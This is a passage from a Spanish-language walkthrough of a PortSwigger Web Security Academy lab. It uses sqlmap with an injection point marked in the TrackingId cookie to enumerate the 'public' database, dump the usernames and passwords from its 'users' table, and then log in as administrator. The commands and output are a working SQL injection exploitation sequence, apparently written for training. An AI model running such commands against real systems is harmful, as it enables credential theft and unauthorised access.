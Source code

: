 `Listamos` las `tablas` de la base de datos `public`

```
# sqlmap -u https://0a7100f60324b8b38166b11800510080.web-security-academy.net/ --risk=3 --level=5 --random-agent -D public --tables --batch --cookie="TrackingId=lnS9gSlm0CA61ePa*; session=kozeaHyWxCxfjMUuZubvmHN0cIIi9ZTX"
Database: public
[2 tables]
+----------+
| tracking |
| users    |
+----------+
```

`Listamos` las `columnas` de la tabla `users`

```
# sqlmap -u https://0a7100f60324b8b38166b11800510080.web-security-academy.net/ --risk=3 --level=5 --random-agent -D public -T users --columns --tables --batch --cookie="TrackingId=lnS9gSlm0CA61ePa*; session=kozeaHyWxCxfjMUuZubvmHN0cIIi9ZTX"
Database: public
Table: users
[3 columns]
+----------+---------+
| Column   | Type    |
+----------+---------+
| email    | varchar |
| password | varchar |
| username | varchar |
+----------+---------+
```

`Dumpeamos` el contenido de `password` y `username` de la tabla `users`

```
# sqlmap -u https://0a7100f60324b8b38166b11800510080.web-security-academy.net/ --risk=3 --level=5 --random-agent -D public -T users -C password,username --dump --columns --tables --batch --cookie="TrackingId=lnS9gSlm0CA61ePa*; session=kozeaHyWxCxfjMUuZubvmHN0cIIi9ZTX"
Database: public
Table: users
[3 entries]
+----------------------+---------------+
| password             | username      |
+----------------------+---------------+
| 1hks7t69qxtkjcpu73lf | administrator |
| 3f89mwv9aqd9sqtuuawl | carlos        |
| ynd8n4de1zy22jjq855c | wiener        |
+----------------------+---------------+
```

Nos `logueamos` como el usuario `administrador`
